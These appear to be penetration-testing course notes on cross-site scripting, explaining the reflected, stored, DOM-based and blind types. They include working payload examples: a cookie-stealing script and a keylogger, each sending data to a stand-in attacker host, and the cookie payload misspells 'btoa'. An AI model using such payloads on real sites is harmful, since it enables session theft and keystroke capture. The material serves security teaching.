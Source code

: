 ```yaml
---
description: Eighth section in Jr Penetration Tester learning path.
---
```


# XSS (Cross-site Scripting)

### XSS Payloads

In XSS, the payload is the JavaScript whihc is executed on the targets computer, there are two parts to the payload: the intention and the modification. The intention is what you want the JavaScript to do, and the modification is the changes we need to make so it executes.

The simplest proof of concept (POC) payload will cause an alert box to pop up on the page with text, for example: `<script>alert('XSS');</script>`.

This payload would take the targets cookies, base64 encode them, and then post them to a website controlled by the attacker: `<script>fetch('https://example.com/steal?cookie=' + bota(document.cookie));</script>`.

This payload would create a keylogger on the target and forward any keystrokes to a website controlled by the attacker: `<script>document.onkeypress = function(e) { fetch('https://example.com/log?key=' + btoa(e.key) );}</script>`.

### Reflected XSS

This occurs when user supplied data in a HTTP request is included in the webpage source with no validation. This allows an attacker to send links or embed them into an iframe on a website containing a JavaScript payload. To test for this, look for:

* Parameters in the URL query string
* URL file path
* Sometimes HTTP headers (unlikely exploitable in practice)

### Stored XSS

The XSS payload is stored on the web application and gets run when other users visit the site or web page. This could redirect users, or steal a user's session cookies. To test for this, look for points where data is stored and then shown back in areas other users have access to:

* Comments on a blog
* User profile info
* Website listings

### DOM Based XSS

DOM (Document Object Model) is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. DOM based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. DOM based XSS is hard to look for and requires knowledge of JavaScript to read the source code. You would look for parts of the code that access variables an attacker can have control over like "window.location.x".

### Blind XSS

Similar to stored XSS but you can't see the payload working or test it against yourself first. With the correct payload, an attacker can call back to their own site, revealing portal URLs, cookies or even page contents. To test for blind XSS you need to ensure your payload has a callback, so you know the code is being executed.
